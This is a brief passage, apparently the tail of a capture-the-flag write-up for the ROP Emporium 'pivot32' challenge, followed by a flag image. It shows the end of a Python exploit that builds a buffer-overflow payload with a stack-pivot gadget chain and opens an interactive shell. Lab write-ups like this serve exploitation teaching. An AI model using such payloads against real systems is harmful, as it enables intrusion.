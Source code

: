 ```python
    
    payload_short = b"A" * 44
    payload_short += pop_eax
    payload_short += leak
    payload_short += xchg_esp_eax
    
    p.sendline(payload_short)
    p.interactive()
    
if __name__=='__main__':
    main()
```

![flag](/assets/images/rop_emp/pivot32/flag.png)